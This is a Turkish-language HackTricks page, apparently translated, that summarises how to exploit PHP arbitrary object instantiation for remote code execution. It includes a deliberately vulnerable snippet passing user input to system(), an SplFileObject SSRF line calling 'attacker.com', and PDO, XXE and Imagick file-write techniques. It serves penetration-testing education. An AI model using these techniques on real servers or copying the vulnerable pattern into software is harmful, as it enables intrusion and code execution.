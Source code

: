 # PHP - Nesne oluşturma kötüye kullanımı: new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman olmak için öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek veya HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**'ı takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>

Bu temel olarak [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) adresindeki bir özetidir.

## Giriş

`new $_GET["a"]($_GET["b"])` gibi yeni keyfi nesnelerin oluşturulması, Uzaktan Kod Yürütme (RCE) ile sonuçlanabilir. Bu, [**bir yazıda**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) detaylı olarak açıklanmıştır. Bu belge, RCE elde etmek için çeşitli stratejileri vurgular.

## Özel Sınıflar veya Otomatik Yükleme ile RCE

`new $a($b)` sözdizimi, bir nesnenin oluşturulması için kullanılır, burada **`$a`** sınıf adını temsil eder ve **`$b`** yapıcıya iletilen ilk argümandır. Bu değişkenler, GET/POST gibi kullanıcı girişlerinden veya JSON'dan alınabilir, burada dize veya dizi olabilirler veya diğer türler olarak sunulabilirler.

Aşağıdaki kod örneğini düşünün:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Bu durumda, `$a`'yı `App` veya `App2` olarak ayarlamak ve `$b`'yi bir sistem komutu (örneğin, `uname -a`) olarak ayarlamak, o komutun çalıştırılmasına neden olur.

**Otomatik yükleme işlevleri**, doğrudan erişilebilen sınıflar yoksa istismar edilebilir. Bu işlevler, ihtiyaç duyulduğunda sınıfları dosyalardan otomatik olarak yükler ve `spl_autoload_register` veya `__autoload` kullanılarak tanımlanır:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Autoloading davranışı, PHP sürümlerine göre değişir ve farklı RCE olanakları sunar.

## Yerleşik Sınıflar Aracılığıyla RCE

Özel sınıflar veya otomatik yükleyiciler olmadığında, **yerleşik PHP sınıfları** RCE için yeterli olabilir. Bu sınıfların sayısı, PHP sürümüne ve uzantılara bağlı olarak 100 ila 200 arasında değişir. Bunlar `get_declared_classes()` kullanılarak listelenebilir.

İlgili yapıcılar, aşağıdaki örnekte ve [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF) bağlantısında gösterildiği gibi yansıtma API'si aracılığıyla belirlenebilir.

**Belirli yöntemler aracılığıyla RCE şunları içerir:**

### **SSRF + Phar Deserialization**

`SplFileObject` sınıfı, yapıcısı aracılığıyla SSRF'yi etkinleştirir ve herhangi bir URL'ye bağlantı yapılmasına izin verir:
```php
new SplFileObject('http://attacker.com/');
```
SSRF, PHP'nin 8.0 öncesi sürümlerinde Phar protokolünü kullanarak deserializasyon saldırılarına yol açabilir.

### **PDO'ları Sömürmek**

PDO sınıfının yapıcı fonksiyonu, DSN dizeleri aracılığıyla veritabanlarına bağlantı sağlar ve potansiyel olarak dosya oluşturma veya diğer etkileşimleri mümkün kılar:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP'nin 5.3.22 ve 5.4.12 sürümlerine kadar olan versiyonları, `SoapClient` ve `SimpleXMLElement` yapılandırıcıları aracılığıyla XXE saldırılarına açıktı, ancak libxml2 sürümüne bağlı olarak değişiyordu.

## Imagick Uzantısı Aracılığıyla RCE

Bir **projenin bağımlılıklarının** analizi sırasında, **Imagick**'in yeni nesnelerin oluşturulmasıyla **komut yürütme** için kullanılabileceği keşfedildi. Bu, zafiyetlerin sömürülmesi için bir fırsat sunar.

### VID ayrıştırıcısı

VID ayrıştırıcısının, dosya sisteminde belirtilen herhangi bir yola içerik yazabilme yeteneği belirlendi. Bu, bir PHP kabuğunun web erişimine açık bir dizine yerleştirilmesine ve Uzaktan Kod Yürütme (RCE) elde edilmesine yol açabilir.

#### VID Ayrıştırıcısı + Dosya Yükleme

PHP'nin geçici olarak yüklenen dosyaları `/tmp/phpXXXXXX` dizininde depoladığı belirtilmektedir. Imagick'teki VID ayrıştırıcısı, **msl** protokolünü kullanarak dosya yollarında joker karakterlerini işleyebilir ve geçici dosyanın istenen konuma transferini kolaylaştırır. Bu yöntem, dosya sistemi içinde keyfi dosya yazma işlemini gerçekleştirmek için ek bir yaklaşım sunar.

### PHP Çökertme + Kaba Kuvvet

[**Orijinal yazıda**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) açıklanan bir yöntem, silinmeden önce sunucuyu çökerten dosyaların yüklenmesini içerir. Geçici dosyanın adını kaba kuvvetle tahmin ederek, Imagick'in keyfi PHP kodunu yürütmesi mümkün hale gelir. Ancak, bu teknik yalnızca eski bir ImageMagick sürümünde etkili bulundu.

## Referanslar

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman olacak şekilde öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı yapmak veya HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi Twitter'da takip edin 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live).
* Hacking hilelerinizi **HackTricks** ve **HackTricks Cloud** github reposuna PR göndererek paylaşın.

</details>
